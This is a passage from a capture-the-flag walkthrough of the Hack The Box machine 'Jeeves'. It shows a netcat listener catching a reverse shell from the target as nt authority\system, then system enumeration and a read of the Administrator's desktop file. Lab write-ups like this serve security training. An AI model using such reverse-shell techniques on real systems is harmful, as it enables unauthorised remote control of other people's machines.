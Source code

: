 ```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Jeeves)-[2023.05.26|16:51:14(HKT)]
└> rlwrap -cAr nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.63] 49889
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && ipconfig /all
whoami && ipconfig /all
nt authority\system

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Jeeves
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-03-3A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.63(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{4079B648-26D5-4A56-9108-2A55EC5CE6CA}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #3
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

I'm `nt authority\system`!

## Rooted

**In user `Administrator`'s Desktop directory, we see this:**
```shell
C:\Windows\system32>type c:\users\administrator\desktop\hm.txt
type c:\users\administrator\desktop\hm.txt
The flag is elsewhere.  Look deeper.
```
